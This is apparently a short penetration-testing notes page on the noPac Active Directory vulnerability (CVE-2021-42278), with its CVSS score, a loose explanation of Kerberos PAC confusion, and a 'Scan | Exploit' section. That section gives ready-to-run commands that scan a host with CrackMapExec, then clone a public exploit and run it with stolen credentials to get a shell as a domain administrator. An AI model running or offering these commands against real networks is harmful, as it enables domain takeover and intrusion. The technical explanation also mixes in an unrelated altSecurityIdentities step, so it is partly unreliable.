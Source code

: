 # noPac - CVE-2021-42278

> * Release Date: Nov 9, 2021&#x20;
> * Impact: Elevation of Privilege&#x20;
> * CVSS score: 8.8

**Affected products**&#x20;

<figure><img src="../../../../.gitbook/assets/image (122).png" alt=""><figcaption></figcaption></figure>

## Brief

This CVE is a security **bypass vulnerability** that is caused by **Kerberos’s PAC confusion** and impersonation of domain controllers.

It allows potential attackers to impersonate domain controllers by requesting TGT’s from Kerberos without a PAC, and the moment TGT is issued without issuing PACs, the attacker can impersonate as a highly privileged user.

Now, to get a DC to add a PAC when a service ticket (ST) was requested using a TGT without a PAC was achieved by configuring the “altSecurityIdentities“ attribute.

This process involves modifying the altSecurityIdentities attribute of an account in a foreign domain to Kerberos:\[samaccountname]@\[domain] to impersonate that user.

## Scan | Exploit

```bash
# scan
cme smb $ip -u $user -p $pass -M noPac

# exploit
git clone https://github.com/Ridter/noPac
cd noPac/
ls -al
python3 noPac.py $domain/$username:$password -dc-ip $ip -shell --impersonate $administrator_name -use-ldap
# enjoy :)
```
